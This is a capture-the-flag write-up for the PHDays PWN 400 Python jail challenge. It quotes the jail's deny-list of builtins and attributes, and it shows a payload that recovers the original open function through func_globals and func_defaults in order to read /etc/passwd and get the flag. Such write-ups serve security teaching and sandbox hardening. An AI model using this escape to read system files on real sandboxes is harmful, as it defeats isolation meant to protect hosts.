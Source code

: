 # PHDays Quals PWN 400

PWN 400 is a python jail. We are given a python REPL, but most useful
functions and builtins are deleted from the global namespace. We are
offered one function, **Reader(filename)**, but it can only read three
files:

* log.1
* log.2
* log.3

The files contain dumps of trollfaces :(.

We're also given the source code, which has two files.

**pyjail.py** is the REPL. This is the most important code:

    inp = raw_input('>>> ')
    a = None
    exec 'a=' + inp

**secure_reader.py** is the script that makes the REPL annoying to use.

    UNSAFE_BUILTINS = [
        'open', 'file', 'execfile', 'reload', 'input', 'eval', 'type', 'compile'
        ]

    UNSAFE_ATTRS = [
        '__globals__', '__closure__'
        ]

    ALLOWED_FILES = [
        'log.1', 'log.2', 'log.3'
        ]

...

    def remove_builtins():
        for item in UNSAFE_BUILTINS:
            del __builtin__.__dict__[item]
        def null(*args, **kwargs):
            pass
        __builtin__.__import__ = null

...

    del dictionary_of(type)['__subclasses__']
    del dictionary_of(GeneratorType)['gi_frame']
    del dictionary_of(FrameType)['f_code']
    del dictionary_of(FrameType)['f_builtins']
    del dictionary_of(FrameType)['f_globals']
    del dictionary_of(GeneratorType)['gi_code']

And so on

So it removes most of the usable functions. Here is how it defines the
Reader function:

    def _Reader(
        open_file=open,
        type=type,
        TypeError=TypeError,
        Namespace=Namespace,
        ):

        @guard(filename=str)
        def Reader(filename):
           if filename not in ALLOWED_FILES:
               raise ValueError("You can't read that shit!")
           data = open_file(filename).read()
           return data

        return Reader

    Reader = _Reader()

The outside function **_Reader** returns the inside function **Reader**,
which is what we have access to. It is important to realize that **if Reader
can read files at all, then it must have access to some file reading
mechanism**. It calls 'open_file', which is really just an alias to
'open'. We get the open function through the Object Tree starting with
the Reader function.

    Reader.func_globals['_Reader'].func_defaults[0]

We can also read the **/etc/passwd** file directly now

    Reader.func_globals['_Reader'].func_defaults[0]('/etc/passwd').read()

Which contains the flag in plaintext.

    41f20268caa093e1b746e5ca750d3aa0
